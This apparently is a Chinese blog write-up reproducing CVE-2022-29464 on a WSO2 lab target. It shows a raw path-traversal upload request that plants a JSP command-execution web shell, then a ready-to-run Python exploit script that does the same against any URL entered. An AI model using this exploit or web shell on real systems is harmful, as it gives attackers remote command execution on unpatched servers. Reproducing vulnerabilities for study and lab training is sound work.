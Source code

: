 ```yaml
---
title: CVE-2022-29464
subtitle:
date: 2025-03-14T12:35:37+08:00
slug: 423bfcb
draft: false
author:
  name: T1ng
  link:
  email:
  avatar: /images/avater.jpg
description:
keywords:
license:
comment: false
weight: 0
tags:
  - CVE
categories:
  - 复现
hiddenFromHomePage: false
hiddenFromSearch: false
hiddenFromRelated: false
hiddenFromFeed: false
summary:
resources:
  - name: featured-image
    src: featured-image.jpg
  - name: featured-image-preview
    src: featured-image-preview.jpg
toc: true
math: false
lightgallery: false
password:
message:
repost:
  enable: true
  url:

# See details front matter: https://fixit.lruihao.cn/documentation/content-management/introduction/#front-matter
---
```


<!--more-->

<!-- Place resource files in the current article directory and reference them using relative paths, like this: `![alt](images/screenshot.jpg)`. -->

![](images/a5a2d99458eb7e9f1404b65091252ab9.png)
 攻击者可以上传恶意 JSP 文件到 WSO2 服务器的 web 目录（如 `/repository/deployment/server/webapps`），从而通过 HTTP 请求直接访问并执行该文件。
弱口令admin\admin发现登陆进去并没有什么用。
刷新登陆界面，修改host值上传wavesky.jsp文件到指定目录，根据poc抓包修改

```
POST /fileupload/toolsAny HTTP/1.1
Host: eci-2ze5ic6lllh6zsnt7m7o.cloudeci1.ichunqiu.com:9443
Accept: */*
Accept-Encoding: gzip, deflate
Content-Length: 901
Content-Type: multipart/form-data; boundary=4ef9f369a86bfaadf5ec3177278d49c0
User-Agent: python-requests/2.22.0
 
--4ef9f369a86bfaadf5ec3177278d49c0
Content-Disposition: form-data; name="../../../../repository/deployment/server/webapps/authenticationendpoint/shell.jsp"; filename="../../../../repository/deployment/server/webapps/authenticationendpoint/shell.jsp"
 
<FORM>
    <INPUT name='cmd' type=text>
    <INPUT type=submit value='Run'>
</FORM>
<%@ page import="java.io.*" %>
    <%
    String cmd = request.getParameter("cmd");
    String output = "";
    if(cmd != null) {
        String s = null;
        try {
            Process p = Runtime.getRuntime().exec(cmd,null,null);
            BufferedReader sI = new BufferedReader(new
InputStreamReader(p.getInputStream()));
            while((s = sI.readLine()) != null) { output += s+"</br>"; }
        }  catch(IOException e) {   e.printStackTrace();   }
    }
%>
        <pre><%=output %></pre>
--4ef9f369a86bfaadf5ec3177278d49c0--
```

![](images/fa5b2999fa34c1916c5432544c0e7446.png)
上传成功，访问

``` url
https://eci-2ze5ic6lllh6zsnt7m7o.cloudeci1.ichunqiu.com:9443/shell.jsp
```

![](images/00130f6dbf26ea6ee01e00e458c0de29.png)
进行命令执行，找到flag
![](images/b82646576edee0d9526544c7b90b9a6c.png)
读取flag
![](images/4b5053891cd25634ff775f730d45f18b.png)
exp：

``` python
import requests
import urllib3
 
urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)
 
url = input("请输入URL：")
file = "shell.jsp"
payload = """<FORM>
    <INPUT name='cmd' type=text>
    <INPUT type=submit value='Run'>
</FORM>
<%@ page import="java.io.*" %>
    <%
    String cmd = request.getParameter("cmd");
    String output = "";
    if(cmd != null) {
        String s = null;
        try {
            Process p = Runtime.getRuntime().exec(cmd,null,null);
            BufferedReader sI = new BufferedReader(new
InputStreamReader(p.getInputStream()));
            while((s = sI.readLine()) != null) { output += s+"</br>"; }
        }  catch(IOException e) {   e.printStackTrace();   }
    }
%>
        <pre><%=output %></pre>"""
 
files = {f"../../../../repository/deployment/server/webapps/authenticationendpoint/{file}": payload}
response = requests.post(f'{url}/fileupload/toolsAny', files=files, verify=False)
print(f"shell @ {url}/authenticationendpoint/{file}")
```
